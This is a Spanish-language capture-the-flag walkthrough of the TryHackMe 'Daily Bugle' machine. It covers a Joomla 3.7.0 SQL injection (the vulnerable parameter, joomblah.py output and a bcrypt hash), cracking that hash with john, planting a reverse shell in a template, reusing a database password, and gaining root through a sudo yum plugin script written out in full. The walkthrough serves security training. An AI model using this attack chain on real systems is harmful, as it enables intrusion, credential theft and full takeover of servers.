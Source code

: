 # Daily Bugle - rmartinez 19/01/2022

IP: 10.10.157.67

## 1. Deploy

Empezamos reconocimiento inicial con nmap. Encontramos dos puertos:

- 22 SSH, no nos interesa por el momento.
- 80 Apache 2.4.6 con algumas disallowed entries, vamos a empezar por aquí:

- -| /joomla/administrator/ /administrator/ /bin/ /cache/ 
- -| /cli/ /components/ /includes/ /installation/ /language/ 
- -|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/

Access the web server, who robbed the bank?

```
Spiderman
```

## 2. Obtain user and root

What is the Joomla version?

Haciendo un poco de research en Google vemos como hallar la versión de Joomla, en este caso nos ha servido el fichero /language/en-GB/en-GB.xml que nos ha dicho la versión, en este caso
la 3.7.0. Buscamos en exploit-db un exploit para esta versión y encontramos una SQLi usando el parámetro ?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexmlCODIGOSQL

What is Jonah's cracked password?

Buscamos un exploit para Joomla 3.7.0 y encontramos un script de python joomblah.py. Lo arrancamos pero no funciona, y vemos una PR que tiene un fix. Aplicamos el fix, runeamos el script, y nos saca el usuario de la BD:

```
 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

Con SQLMap también conseguimos sacar todas las tablas.

Vemos que tiene un hash de bcrypt, por lo que usaremos john con rockyou para crackear el hash:

```
echo "$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm" > hash.txt
/opt/john/john --wordlist=/opt/wordlists/rockyou.txt hash.txt --format=bcrypt

La password es: spiderman123
```

Entramos en el panel de administración de joomla, vamos a templates, seleccionamos la que está puesta, modificamos el index.php y le cascamos la revshell de Pentestmonkey.

Al entrar vemos que no tenemos permisos para ver la flag de user en /home/jjameson/user.txt, por lo que tenemos que obtener las credenciales de ese usuario o en su defecto conseguir una privesc.

Las credenciales de usuario estaban en configuration.php del /var/www/html. En realidad estaba configurada como la pass de mysql, pero intentamos hacer una reutilización de credenciales y conseguimos acceso.

Para escalar privilegios con el nuevo usuario, comprobamos los permisos con:
```
sudo -l
```
y vemos que tiene permisos de root en el binario yum. 

Entramos en GTFObins y vemos que podemos mantener los privilegios y spawnear una shell con el bloque de código nº 2:

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

Y gg pwn3d.
